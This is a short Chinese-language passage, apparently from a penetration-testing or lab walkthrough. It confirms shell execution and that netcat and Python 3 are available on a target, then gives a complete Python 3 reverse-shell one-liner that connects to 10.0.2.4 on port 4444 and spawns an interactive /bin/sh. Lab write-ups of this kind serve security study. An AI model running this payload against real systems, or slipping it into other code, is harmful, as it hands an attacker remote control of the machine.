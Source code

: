 可以执行shell

看看 nc python环境

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/yFPMKgiKRHjd69fsvbzr9DvFPbRw30nnO1HQPBsv0Jg.png?raw=true)

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/Z3KgVWQ_n4U8rHeq_f-g5nmJhV7wtXAz7o0bvnZocHA.png?raw=true)

nc有的，python3有的

通过py3反弹shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```